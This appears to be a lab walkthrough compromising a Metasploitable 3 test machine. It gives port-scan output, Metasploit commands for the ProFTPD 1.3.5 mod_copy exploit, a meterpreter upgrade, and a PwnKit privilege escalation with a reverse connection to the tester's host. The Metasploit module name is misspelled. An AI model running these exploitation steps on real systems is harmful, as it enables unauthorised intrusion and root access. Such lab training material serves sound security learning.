 # FTP ENUMERATION

**Rustscan**

```shell
rustscan -a 192.168.43.111 -- -sV -oN meta3_nmap
```

<figure><img src="../../.gitbook/assets/scan1.png" alt=""><figcaption></figcaption></figure>

```
Open 192.168.43.111:21
Open 192.168.43.111:22
Open 192.168.43.111:445
Open 192.168.43.111:80
Open 192.168.43.111:631
Open 192.168.43.111:3306
Open 192.168.43.111:3500
Open 192.168.43.111:6697
Open 192.168.43.111:8080

PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack ProFTPD 1.3.5
22/tcp   open  ssh         syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open  ipp         syn-ack CUPS 1.7
3306/tcp open  mysql       syn-ack MySQL (unauthorized)
3500/tcp open  http        syn-ack WEBrick httpd 1.3.1 (Ruby 2.3.8 (2018-10-18))
6697/tcp open  irc         syn-ack UnrealIRCd
8080/tcp open  http        syn-ack Jetty 8.1.7.v20120910
Service Info: Host: irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP ENUMERATION (port 21)

We see that FTP has a version of <mark style="background-color:purple;">ProFTPD 1.3.5</mark> , when we search for exploit vulnerability we seen some good news.

```
searchsploit ProFTPD 1.3.5
```

<figure><img src="../../.gitbook/assets/ftp1.png" alt=""><figcaption></figcaption></figure>

Now we see we have some code being used with metasploit, lets start the service see if we might get access to the server.

```shell
msfconsole
```

And if the service is opened search for the same FTP version you searched earlier and you will see we some exploit.&#x20;

<figure><img src="../../.gitbook/assets/msf1.png" alt=""><figcaption></figcaption></figure>

```shell
use exploit/unix/ftp/proftpd_modcpoy_exec
```

```shell
1. setg rhosts 192.168.43.111
2. set sitepath /var/www/html
3. run
```

<figure><img src="../../.gitbook/assets/ftp2.png" alt=""><figcaption></figcaption></figure>

Even though have a Exploit aborted due to failure message go no check you sessions, you have a session started.&#x20;

<figure><img src="../../.gitbook/assets/ftp3.png" alt=""><figcaption></figcaption></figure>

Now if you want to get your shell you type ==sessions 1== but if you want to use a meterpreter session you have to upgrade your session

```shell
sessions -u 1
```

Anew meterpreter session will be started and you re set to do what ever you want on the machine&#x20;

<figure><img src="../../.gitbook/assets/ftp4.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/ftp5.png" alt=""><figcaption></figcaption></figure>

You type <mark style="background-color:blue;">shell</mark> in your meterpreter to get the shell of the machine but first you need a interactive shell ,

```shell
/bin/bash -i
```

<figure><img src="../../.gitbook/assets/shel1.png" alt=""><figcaption></figcaption></figure>

#### #Privilege escalation

After having upgraded our shell to meterpreter we need to find the privilege escalation to this machine. First am going to scan the machine and see if we might have any kernel exploits.

```shell
1. search suggestor
2. use post/multi/recon/local_exploit_suggester
3. set session 2
4. run
```

<figure><img src="../../.gitbook/assets/suggester.png" alt=""><figcaption></figcaption></figure>

After our scripts runs, we seen that this machine is vulnerable to 4 attacks. and if one is successful we should get access to a root user.

```shell
1. use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
2. setg session 2
3. setg lhost 192.168.43.103
4. setg lport 3333
5. exploit
```

Now we set our session to the second session upgraded to meterpreter which is id 2 and then we our lport(attack's ip address) later we only set a new port, this should not be in use by any application and then run your exploit. A meterpreter session is pwned and by changing to the interactive shell shell we seen we an root user and this can also be confirmed by running ID command which also show you the same.&#x20;

<figure><img src="../../.gitbook/assets/root (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/all.png" alt=""><figcaption></figcaption></figure>

